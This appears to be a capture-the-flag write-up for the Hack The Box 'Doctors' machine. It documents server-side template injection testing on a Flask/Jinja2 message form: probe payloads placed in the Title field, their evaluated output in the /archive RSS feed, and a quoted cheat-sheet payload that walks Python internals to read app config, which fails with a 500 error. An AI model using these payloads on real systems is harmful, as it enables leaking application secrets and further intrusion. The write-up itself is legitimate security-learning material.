 * Created a test account on this website
  * routes to http://www.doctors.htb/home
  * Renders the text in an `href`:
```html
<a class="mr-2" href="/user/test">test</a>
	<small class="text-muted"></small>
```
```html
<h2><a class="article-title" href="/post/3">Test Title</a></h2>
  <p class="article-content">Test Content</p>
```
Site allows for input to create a message with the following fields: 'Title' and 'Content'. Based on what shows in the output of `/archive`, it renders the title provided to the `<title>` tag from the Title input on the page.

Tested SSTI in the Title section: `{{7 * 7}}`. Checked `/archive` again and received the following:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>Test</title></item>

			</channel>
			<item><title>49</title></item>

			</channel>
```
If I change the SSTI test to `{{7 * '7'}}` it should execute the command and repeat the string '7' seven times. Checked `/archive`:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>7777777</title></item>

			</channel>
```
It's rendering the SSTI payload as expected. With that in mind, let's see what other information we can get.

Found an [SSTI cheat sheet](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) for other payloads to test.
> You may conduct introspection with the locals object using dir and help to see everything that is available to the template context. You can
> also use introspection to reach every other application variable. This script written by the DoubleSigma team will traverse over child
> attributes of request recursively. For example, if you need to reach the blacklisted config var you may access it anyway via:
`{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}`

This returns the following error on the `/archive` page: 
> Something went wrong (500)
> 
> We're experiencing some trouble on our end. Please try again in the near future
